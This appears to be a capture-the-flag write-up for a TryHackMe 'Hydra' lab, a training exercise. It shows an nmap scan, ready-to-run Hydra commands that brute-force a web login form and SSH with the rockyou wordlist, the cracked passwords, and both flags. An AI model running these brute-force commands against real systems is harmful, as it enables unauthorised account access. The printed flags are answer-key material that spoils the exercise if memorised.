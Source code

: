 # Hydra

* IP = 10.10.40.32

## Questions/Tasks:

* **Nmap Scan Results:**
`nmap -sC -sV -vv $IP`

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c2:0f:c1:2e:9d:55:c7:9c:fe:97:d9:14:2b:74:de:c2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwl3Ps7KnoQsk4aCDQtXbrYq05p+oU7qxNPCasiFPWGhq0Z+BVoEfFH8MtDinNIVly80V4DNttyN68Vbd2ggk/4Dbxl0gITYPBt4ZSsisw4tUmp8QALfoqCpzQtlfchR6W3I3J1fRE2p7QEbacQ0e2YMZxI4kpCWnzS8sQZW0fXhysGXMIOscpLyCVXRkhdeZudNM9gO1zfITaNksskyq8x9wUgG7dunBHUvDmpfDt1K+G1pAr+bnqPnoKx9xzP1covVRa3dJr8NXyUOlcyzWoGQi0inO7pVw5KU60iVRno4LVHXEFlj232QxQOavB3Mu7cjX8SJBrF504NsfcQ/Kl
|   256 be:b0:4d:7b:b6:40:1c:04:90:90:a8:7a:10:6d:48:11 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBAJiIdYrZGQc2pcub61izSMj3q9sLMJGbQhU0QZIzlBS9H3fXTKnHqITFm7HN4Jn2EDUkmoBE5jZ5c0K89d99w=
|   256 b0:37:4e:c6:62:7c:ad:3f:97:8c:0a:94:28:ca:3d:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAMUK6zl+BFKYAEUSZgK97nqbvgRWtq8TUv2xjto1ixi
80/tcp open  http    syn-ack Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Hydra Challenge
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
* Use this command:`hydra -l molly -P rockyou.txt 10.10.40.32 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." -V`, to bruteforce login.
* Password found:`sunshine`<br>
![Screenshot](./assets/1.png)
* Login with `molly` and `sunshine` to get the first flag.

1. Use Hydra to bruteforce molly's web password. What is flag 1?

```
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

* Use this:`hydra -l molly -P rockyou.txt -f 10.10.40.32 ssh -V` to bruteforce login.<br>
![Screenshot](./assets/2.png)
* SSH into server as `molly` and use `butterfly` as password.
* Find flag2 there itself.

```
THM{c8eeb0468febbadea859baeb33b2541b}
```
